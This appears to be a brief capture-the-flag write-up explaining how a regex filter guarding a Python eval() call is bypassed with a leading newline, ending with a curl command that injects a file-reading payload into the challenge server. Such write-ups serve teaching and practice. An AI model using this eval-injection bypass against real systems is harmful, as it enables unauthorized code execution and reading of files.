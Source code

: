 ### Code analysis
we see this line here where `user_code` is supplied by the user to an eval function that will execute python code:
`result = eval(user_code)`

but before that there is a strict regex that will stop us from entering any characters in `user_code`:
```python
if re.match(".*[\x20-\x7E]+.*", user_code):
	return jsonify({"output": "PEW PEW you can't use chars"}), 403
```

## Solution
`re.match` if used against multiple lines it will check only the first line so the solution is to simply enter an empty new line and then in the second write our payload

* run the following curl command : 
```bash
curl -X "POST" http://134.209.92.177:1337/pew -d "pew=
open('flag.txt').read()"
```


